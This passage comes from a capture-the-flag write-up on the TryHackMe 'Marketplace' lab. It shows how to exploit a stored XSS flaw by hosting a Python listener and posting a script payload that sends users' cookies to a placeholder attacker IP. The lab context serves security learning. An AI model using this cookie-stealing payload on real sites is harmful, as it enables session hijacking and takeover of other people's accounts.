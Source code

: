 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/The-Marketplace/images/a21.png)

Hmm... What if we can leverage the XSS vunlerability to capture admin's "token" cookie?? This would allow us to login as admin!

**To achieve this, I'll:**

1. host a website via python's `http.server` module:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/The-Marketplace/images/a22.png)

2. Craft a XSS payload:

**XSS payload:**
```html
<script>document.write('<img src="http://YOUR_VPN_IP_ADDRESS/?'+document.cookie+' "/>')</script>
```

This will create an image in the listing, and capture an user's cookies.

3. Create a new listing with the XSS payload in above:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/The-Marketplace/images/a23.png)